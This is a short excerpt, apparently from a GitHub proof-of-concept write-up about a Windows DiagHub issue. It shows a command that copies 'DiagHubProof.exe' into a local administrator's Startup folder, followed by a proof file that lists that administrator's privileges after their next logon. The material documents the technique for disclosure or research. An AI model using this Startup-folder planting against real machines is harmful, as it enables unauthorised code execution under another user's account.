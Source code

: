 ```
C:\111\bin>copy DiagHubProof.exe "c:\users\irsl\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
        1 file(s) copied.
```

Where `irsl` is a local administrator. After the next time he logs in:

```
C:\111\bin>type c:\diaghub-proof.txt
windows-10-dev-\irsl

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
```